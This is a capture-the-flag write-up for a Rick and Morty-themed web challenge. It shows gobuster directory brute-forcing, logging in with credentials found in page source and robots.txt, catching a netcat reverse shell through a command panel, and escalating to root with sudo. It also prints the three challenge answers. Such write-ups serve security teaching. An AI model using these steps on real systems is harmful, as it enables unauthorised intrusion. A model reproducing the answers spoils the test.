

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application

#### What is the first ingredient that Rick needs?

```
mr. meeseek hair
```

<br>

The first enumeration step I took was to run a nmap scan. In the meanwhile, I browsed the source code of the target website and found the following: `username: R1ckRul3s`, which implies that there's going to be some sort of login webpage within the target website.


Through the nmap scan, I confirmed there's 2 open ports: 1 ssh and 1 http server. The next thing I did was to run a `gobuster` to brute-force against the target URL and to find directories and files using a wordlist. Also I appended `-x` option, this means that Gobuster will test each directory/file name with the given extensions.

`gobuster dir -u http://10.10.243.38 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,css,txt,db,js,py`


<br>

gobuster ouput gave me some useful information. Let's take a look at the `robot.txt` file first. The robot.txt file only contained `Wubbalubbadubdub`, which could be a password for the username we found earlier.


<br>

To test my theory, I navigated to `/login.php` url and inputted the username, R1ckRul3s and the password, Wubbalubbadubdub. It turned out they were the correct credentials and the site directed me to `/portal.php`


<br>

I typed `ls` command then got the following result. Then I tried `cat Sup3rS3cretPickl3Ingred.txt` but it said "command disabled", so I navigated to /Sup3rS3cretPickl3Ingred.txt and got `mr. meeseek hair`, which turned out to be the first ingredient of the task!


<br>

#### What is the second ingredient in Rick's potion?

```
1 jerry tear
```

<br>

Since we can execute some of the commands on the target website. I think it's best to try reverse-shell. I visited the `pentest monkey` to refer to their **Reverse Shell Cheat Sheet** for Python reverse shell. Make sure to change the IP address to your own and change the `python` to `python3`.


<br>
Before running the reverse-shell command, I made sure I'm running the netcat in order to capture the shell.

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```

<br>

I was able to caputre the shell after I had executed the python reverse shell command.

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.6.67.243] from (UNKNOWN) [10.10.242.29] 38160
/bin/sh: 0: can't access tty; job control turned off
$ ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

<br>

I remembered there was `clue.txt` file which showed me a hint for the second ingredient.



<br>

I looked around the file system in the shell for a while then I finally found the file named `second ingredients`!

```shell
$ cd home
$ ls
rick
ubuntu
$ cd rick
$ ls
second ingredients
$ ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
$ cat "second ingredients"
1 jerry tear
```

<br>

#### What is the last and final ingredient?

```
fleeb juice
```

<br>

After we got the second flag, while still in the shell we captured, I ran `sudo -l` command to see what commands I'm permitted to run using `sudo` and it turned out there was no restriction at all.

```shell
$ sudo -l
Matching Defaults entries for www-data on ip-10-10-242-29:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-242-29:
    (ALL) NOPASSWD: ALL
```

<br>

Because I knew that I could run any command with sudo, I went straight to run the `sudo bash` command. This command runs a new instance of Bash shell with root privileges. This effectively gives you a root shell. Once I got the root priviliege, the rest was easy. I navigated to the `root` folder and there was the third ingredients inside it.

```shell
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
cd root
ls
3rd.txt
snap
cat 3rd.txt
3rd ingredients: fleeb juice
```

I got the last ingredients for this task!
